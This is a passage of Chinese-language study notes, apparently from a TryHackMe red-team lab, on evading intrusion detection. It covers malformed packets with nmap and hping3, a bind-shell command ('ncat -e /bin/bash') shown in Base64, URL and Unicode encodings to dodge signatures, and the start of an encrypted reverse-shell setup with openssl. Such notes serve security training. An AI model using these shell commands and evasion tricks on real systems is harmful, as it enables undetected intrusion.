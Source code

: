 ##### 1.4. 发送无效数据包 (Sending Invalid Packets)

- **原理**: 操作系统和 IDS/IPS 对无效数据包的处理方式可能不同。IDS/IPS 可能尝试处理一个它认为是畸形的数据包，而目标系统可能直接丢弃它，或者反之。这种不一致性可能被利用。
- **工具与选项 (Nmap)**:
    - `--badsum`: 发送带有错误 TCP/UDP 校验和的数据包。
    - `--scanflags <FLAGS>`: 发送带有自定义 TCP 标志的数据包，包括无效的标志组合。
        - 可用标志: `URG`, `ACK`, `PSH`, `RST`, `SYN`, `FIN`。
        - 示例 (设置 SYN, RST, FIN): `nmap --scanflags SYNRSTFIN TARGET_IP` (此特定组合可能无实际用途，仅为示例)。
- **工具与选项 (hping3)**: 用于构建具有自定义字段（有效或无效）的数据包。
    - `-t` or `--ttl`: 设置 IP TTL。
    - `-b` or `--badsum`: 发送错误 UDP/TCP 校验和。
    - `-S, -A, -P, -U, -F, -R`: 分别设置 TCP SYN, ACK, PSH, URG, FIN, RST 标志。

---

#### 2. 通过操作有效荷载进行规避 (Evasion via Payload Manipulation)

##### 2.1. 混淆和编码有效荷载 (Obfuscating and Encoding Payloads)

- **原理**: IDS 规则通常匹配特定的字符串或字节序列。对攻击载荷进行编码或混淆，改变其原始形态，可以避免触发这些精确的签名，前提是目标应用程序仍能正确解码并执行该载荷。
- **常见转换方法**:
    - **Base64 编码**:
        - 命令: `ncat -lvnp 1234 -e /bin/bash`
        - Linux `base64` 工具: `echo "ncat -lvnp 1234 -e /bin/bash" | base64`
        - 结果: `bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaAo=` (注意末尾可能有换行符影响)
    - **URL 编码**: 将特殊字符转换为 `%HH` 格式。
        - 命令: `ncat -lvnp 1234 -e /bin/bash`
        - Linux `urlencode` 工具 (需安装) 或在线工具。
        - 结果: `ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash`
    - **Unicode 转义序列**:
        - 例如，使用 `\uXXXX` 格式。
        - 命令: `ncat -lvnp 1234 -e /bin/bash`
        - 结果 (示例): `\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`
        - 工具: CyberChef (`Escape Unicode Characters` recipe).

##### 2.2. 加密通信信道 (Encrypting Communication Channels)

- **原理**: IDS/IPS 通常无法检查加密数据的内容。如果攻击者能建立端到端的加密通道，其内部传输的恶意命令和数据对 IDS/IPS 来说将是不可见的。
    
- **工具与步骤 (使用 `socat` 和 `openssl` 实现加密反向 Shell)**:
    
    1. **创建密钥和证书**: Bash
        
        Bash
        
        ```
        # 在攻击者机器上执行
        openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
        cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
        ```
        